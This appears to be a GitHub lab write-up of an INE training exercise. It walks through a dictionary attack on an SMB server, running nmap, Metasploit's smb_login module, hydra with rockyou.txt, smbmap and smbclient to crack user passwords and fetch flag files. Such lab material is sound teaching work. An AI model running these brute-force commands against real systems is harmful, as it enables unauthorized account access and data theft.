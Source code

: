 <h1>SMB Dictionary Attack</h1>


<h2>Description</h2>
This project consists of using known wordlists to conduct a dictionary attack on an SMB server. 
<br />
<br />
- A wordlist file is a list of common or bad passwords which can be used for brute force or dictionary attacks. A famous wordlist is the rockyou.txt wordlist, which contains over 14 million passwords that were leaked in past data breaches. I will provide examples of using different Kali Linux tools to conduct dictionary attacks. 
<br />
<br />

Disclaimer: The Kali Linux user machine and target machine used in this project was provided to me by INE for educational purposes. The misuse of the information in this project lab can result in criminal charges brought against the individual/individuals in question.
<br />


<h2>Languages and Utilities Used</h2>

- <b>nmap</b>
- <b>msfconsole</b>
- <b>hydra</b>
- <b>smbmap</b>
- <b>smbclient</b>


<h2>Environments Used </h2>

- <b>Kali Linux</b>

<h2>Project walk-through:</h2>

<p align="left">
Ping target machine to verify that it is active: <br/>
<br/>
- INE has provided me with Kali Linux GUI & target machine (target machine is one ip address above from mine).  I will run and ip a command to verify my own ip address. 
<br/>
<br/>
Commands: ip a
<br/>
ping 192.86.121.3
<br/>
<br/>
<img src="https://i.imgur.com/lj1us1d.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Run nmap scan to look for open ports: <br/>
<br/>
- We can see that port 445, also known as SMB, is open. 
<br/>
<br/>
Command: nmap 192.86.121.3
<br/>
<br/>
<img src="https://i.imgur.com/E5yXhP6.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Use the msfconsole tool (metasploit) to run a login brute force attack on the SMB server user Jane: <br/>
<br/>
- In this scenario, we already know that there is a user Jane so we will try to use the metasploit smb_login module with a password wordlist to try and find Jane's password. 
<br/>
- We can see that by using a password wordlist, we were able to find a match for user Jane's password, which is abc123. This is one reason why it is bad practice to use small straightforward passwords.
<br/>
<br/>
Commands: msfconsole
<br/>
use auxiliary/scanner/smb/smb_login
<br/>
options
<br/>
set rhosts 192.86.121.3
<br/>
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
<br/>
set smbuser jane
<br/>
exploit
<br/>
<br/>
<img src="https://i.imgur.com/dOAXa38.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<img src="https://i.imgur.com/MSLfZtm.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<img src="https://i.imgur.com/Oj2hjIe.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Use the hydra tool to run a brute force attack and try to enumerate the user admin's password: <br/>
<br/>
- Hydra is an open source, password brute-forcing tool designed around flexibility and high performance in online brute-force attacks. 
<br/>
- As we can see in the command below, I used the hydra tool to brute force the password for the user admin. First, I used gzip to unzip the wordlist I planned on using for the attack.  Then, I used the popular rockyou.txt wordlist to conduct the brute force attack.  I was able to get a valid password for user admin, which was password1. 
<br/>
<br/>
Commands: gzip -d /usr/share/wordlists/rockyou.txt.gz
<br/>
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.86.121.3 smb
<br/>
<br/>
<img src="https://i.imgur.com/fVUOy7c.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Now that user admin's password is known, use smbmap tool to enumerate user shares & permissions: <br/>
<br/>
- We can see that the nancy share is read only while the admin and shawn shares are read, write. 
<br/>
<br/>
Command: smbmap -H 192.86.121.3 -u admin -p password1
<br/>
<br/>
<img src="https://i.imgur.com/ijAWuWq.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
User Jane's password (abc123) is known from one of the prior steps above. Now use the smbclient tool to verify if the share Jane is browseable: <br/>
<br/>
- We can see that the share jane is not listed, which means it is not browseable. 
<br/>
<br/>
Command: smbclient -L 192.86.121.3 -U jane
<br/>
<br/>
<img src="https://i.imgur.com/hyvQSnk.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Check if the share jane actually exists: <br/>
<br/>
- We can see that I was able to log into the share "jane" and run a ls (list items in directory) command successfully. We can verify that the share jane does exist. It also looks like there is a flag directory that we can try to access in the next step.
<br/>
<br/>
Command: smbclient //192.86.121.3/jane -U jane
<br/>
<br/>
<img src="https://i.imgur.com/YStmvR3.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Obtain and concatenate (cat) the flag that was found in the share "jane": <br/>
<br/>
- It looks like there was a directory named flag with a file named flag in the directory. I can use the get command to retrieve the flag and exit the smb server, then use the cat (concatenate) command to be able to read the flag.
<br/>
<br/>
Commands: smbclient //192.86.121.3/jane -U jane
<br/>
ls
<br/>
cd flag
<br/>
ls
<br/>
get flag
<br/>
exit
<br/>
<br/>
ls
<br/>
cat flag
<br/>
<br/>
<img src="https://i.imgur.com/KzIzy6S.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Since a flag was found in the "jane" share, verify if the "admin" has a flag as well: <br/>
<br/>
- I already have found the password for the "admin" share which is password1. I will use the smbclient tool to login into the "admin" share and perform a ls command to see what directories it has.
<br/>
- It looks like it has a directory called hidden. Inside the hidden directory there is a file called flag.tar.gz which I will retrieve by using the get command. Next, I have to extract the flag from the tar.gz file by using the tar -xf flag.tar.gz command. Now we can see that I am able to use the cat command to read the flag.
<br/>
<br/>
Commands: smbclient //192.86.121.3/admin -U admin
<br/>
ls
<br/>
cd hidden
<br/>
ls
<br/>
get flag.tar.gz
<br/>
exit
<br/>
<br/>
tar -xf flag.tar.gz
<br/>
ls
<br/>
cat flag
<br/>
<br/>
<img src="https://i.imgur.com/XddhQIi.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />




</p>

